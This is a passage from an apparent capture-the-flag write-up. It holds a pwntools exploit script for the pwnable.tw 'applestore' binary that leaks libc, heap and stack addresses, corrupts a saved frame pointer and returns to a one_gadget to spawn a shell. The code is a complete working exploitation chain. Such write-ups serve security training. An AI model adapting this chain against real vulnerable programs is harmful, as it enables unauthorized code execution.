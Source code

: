    for i in range(15):
        add(2)
    for i in range(9):
        add(1)
    add(3)
    add(4)

    ## GET IPHONE 8 ##    
    checkout()
   
    #"0x8048834 is arbitrary addr that will be read when the first dword in fake item->next is printed!
    libc_leak = int(list_cart(a="\x88\x04\x08"+"\x00"*11)[626:636]) #\x00's are needed to set item->next->next = NULL
    libc_base = libc_leak-0x2d060
    one_gadget_rce = libc_base+0x5f065 # 0x5f065 execl("/bin/sh", eax)  

    log.success("libc leak found at: "+hex(z(libc_leak)))
    log.success("libc base found at: "+hex(z(libc_base)))

    ## LEAK STACK & CALCULATE FAKE_FRAME, SAVED EBP IN HANDLER() FRAME ##
    heap_leak = u32(list_cart(b="A"+p32(0x804b070)+"\x00"*11)[611:615]) # myCart+0x8
    stack_leak = u32(list_cart(b="A"+p32(heap_leak+0x480)+"\x00"*11)[611:615]) # stackaddr where old "iPhone 8" string was stored     
    fake_frame = stack_leak+0x40
    saved_ebp_target = stack_leak+0x60 # saved ebp of handler() frame that will be overwritten w/fake_frame

    log.success("heap chunk found at: "+hex(z(heap_leak))) 
    log.success("stack leak found at: "+hex(z(stack_leak)))
    log.success("saved_ebp_target at: "+hex(z(saved_ebp_target))) 
    log.success("fake_frame at: "+hex(z(fake_frame))) 
    
    ## CORRUPT SAVED EBP IN HANDLER() FRAME ##
    payload  = p32(e.got['atoi']) # arbitrary address that can be read from
    payload += "AAAA"
    payload += p32(fake_frame)
    payload += p32(saved_ebp_target-0x8) 
    delete("27"+payload)
    
    ## RET-2-ONE_GADGET_RCE ## 
    exit(one_gadget_rce)
    
    #pause()
    r.interactive()

if __name__ == "__main__":
    log.info("For remote: %s HOST PORT" % sys.argv[0])
    if len(sys.argv) > 1:
        r = remote(sys.argv[1], int(sys.argv[2]))
        exploit(r)
    else:
        r = process(['/home/vagrant/CTFs/pwnable.tw/applestore/applestore'], env={"LD_PRELOAD":"./libc_32.so.6"})
        print util.proc.pidof(r)
        pause()
        exploit(r)
{% endhighlight %}
